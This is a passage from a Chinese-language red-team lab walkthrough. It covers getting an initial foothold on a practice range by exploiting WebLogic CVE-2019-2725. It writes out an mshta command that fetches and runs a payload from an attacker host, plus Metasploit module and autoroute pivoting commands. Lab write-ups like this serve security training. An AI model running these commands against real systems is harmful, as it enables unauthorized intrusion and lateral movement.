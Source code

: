 ```yaml
---
title: 渗透攻击红队靶场
date: 2021-12-24 11:16:25
categories: 渗透测试
tags: 靶场
---
```


### 简介

本靶场由渗透攻击红队saulGoodman制作，集成ms14-018、ms17-010、约束委派等多个漏洞可利用。

感兴趣的可到渗透攻击红队公众号领取靶场，顺便关注下这位作者的知识星球，人家整个靶场也不容易。



<img src="http://qn.laohuan.xin/WechatIMG2.png" style="zoom:67%;" />

### 0x1 立足点

1.常规端口扫描，发现开放7001端口,为weblogic服务

![](http://qn.laohuan.xin/Snipaste_2021-11-13_14-42-21.png)

2.检测weblogic相关漏洞，存在多个漏洞。

<img src="http://qn.laohuan.xin/Snipaste_2021-11-13_15-00-11.png" style="zoom: 67%;" />

3.使用cve-2019-2725上线msf

使用msf hta模块,当然也可使用powershell上线

 `exploit/windows/misc/hta_server`

远程命令执行，成功上线

`mshta http://192.168.1.9:8080/WJw1Bh77010.hta`

![](http://qn.laohuan.xin/Snipaste_2021-11-13_15-51-36-mshta%E4%B8%8A%E7%BA%BF.png)

4.查看存在双网卡

![](http://qn.laohuan.xin/Snipaste_2021-11-13_15-57-04-ipconfig.png)

且为工作组环境，无域

`net config workstation`

![](http://qn.laohuan.xin/Snipaste_2021-11-13_15-58-09-%E5%B7%A5%E4%BD%9C%E7%BB%84%E7%8E%AF%E5%A2%83.png)

5.添加路由

`run get_local_subnets`

`run autoroute -s 10.10.20.0/24`

`run autoroute -p`
